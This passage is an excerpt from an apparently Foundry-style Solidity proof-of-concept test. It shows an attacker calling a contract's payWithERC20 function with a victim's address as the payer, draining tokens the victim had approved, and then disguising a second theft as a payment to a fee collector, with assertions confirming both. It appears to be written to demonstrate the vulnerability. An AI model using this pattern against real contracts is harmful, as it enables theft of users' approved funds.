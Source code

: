 ```solidity
        // Give victim some tokens
        uint256 victimTokens = 100 * 10**18;
        mockToken.mint(victim, victimTokens);
        
        // Victim approves blueprint contract to spend tokens for legitimate purposes
        vm.prank(victim);
        mockToken.approve(address(blueprint), victimTokens);
        
        console.log("Victim approved blueprint to spend", victimTokens, "tokens");
    }
    
    function test_UnauthorizedPaymentAttack() public {
        // Log initial balances
        uint256 initialVictimBalance = mockToken.balanceOf(victim);
        uint256 initialAttackerBalance = mockToken.balanceOf(attacker);
        console.log("Initial victim balance:", initialVictimBalance);
        console.log("Initial attacker balance:", initialAttackerBalance);
        
        // Attacker directly calls payWithERC20 to steal tokens
        uint256 stealAmount = 50 * 10**18;
        console.log("Attacker attempts to steal", stealAmount, "tokens");
        
        // First attack: Steal tokens directly to attacker
        vm.prank(attacker);
        blueprint.payWithERC20(
            address(mockToken),
            stealAmount,
            victim,        // fromAddress - the victim
            attacker       // toAddress - the attacker
        );
        
        // Log intermediate balances
        uint256 midVictimBalance = mockToken.balanceOf(victim);
        uint256 midAttackerBalance = mockToken.balanceOf(attacker);
        console.log("Victim balance after direct theft:", midVictimBalance);
        console.log("Attacker balance after direct theft:", midAttackerBalance);
        
        // Verify attacker successfully stole tokens
        assertEq(initialVictimBalance - midVictimBalance, stealAmount, "Victim did not lose expected amount");
        assertEq(midAttackerBalance - initialAttackerBalance, stealAmount, "Attacker did not gain expected amount");
        
        // Second attack: Disguise theft as legitimate payment to fee collector
        uint256 remainingStealAmount = initialVictimBalance - midVictimBalance;
        console.log("Attacker attempts to disguise theft of remaining", remainingStealAmount, "tokens");
        
        uint256 initialFeeCollectorBalance = mockToken.balanceOf(feeCollector);
        
        vm.prank(attacker);
        blueprint.payWithERC20(
            address(mockToken),
            remainingStealAmount,
            victim,         // fromAddress - the victim
            feeCollector    // toAddress - the fee collector (looks legitimate)
        );
        
        // Log final balances
        uint256 finalVictimBalance = mockToken.balanceOf(victim);
        uint256 finalFeeCollectorBalance = mockToken.balanceOf(feeCollector);
        console.log("Final victim balance:", finalVictimBalance);
        console.log("Final fee collector balance:", finalFeeCollectorBalance);
```
